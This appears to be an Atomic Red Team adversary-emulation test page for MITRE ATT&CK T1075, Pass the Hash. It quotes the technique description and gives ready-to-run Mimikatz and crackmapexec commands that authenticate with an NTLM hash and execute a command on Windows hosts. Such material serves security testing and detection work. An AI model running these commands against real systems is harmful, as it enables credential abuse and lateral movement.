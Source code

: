 # T1075 - Pass the Hash
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1075)
<blockquote>Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash. In this technique, valid password hashes for the account being used are captured using a Credential Access technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems. 

Windows 7 and higher with KB2871997 require valid domain user credentials or RID 500 administrator hashes. (Citation: NSA Spotting)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Pass the Hash](#atomic-test-1---mimikatz-pass-the-hash)

- [Atomic Test #2 - crackmapexec Pass the Hash](#atomic-test-2---crackmapexec-pass-the-hash)


<br/>

## Atomic Test #1 - Mimikatz Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|

#### Run it with `command_prompt`! 
```
mimikatz # sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}
```



<br/>
<br/>

## Atomic Test #2 - crackmapexec Pass the Hash
command execute with crackmapexec

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|
| ntlm | command | string | cc36cf7a8514893efccd3324464tkg1a|
| command | command to execute | string | whoami|

#### Run it with `command_prompt`! 
```
crackmapexec #{domain} -u #{user_name} -H #{ntlm} -x #{command}
```

#### Commands to Check Prerequisites:
```
powershell -c if(Test-Path C:\CrackMapExecWin\crackmapexec.exe) { 0 } else { -1 }
```


<br/>
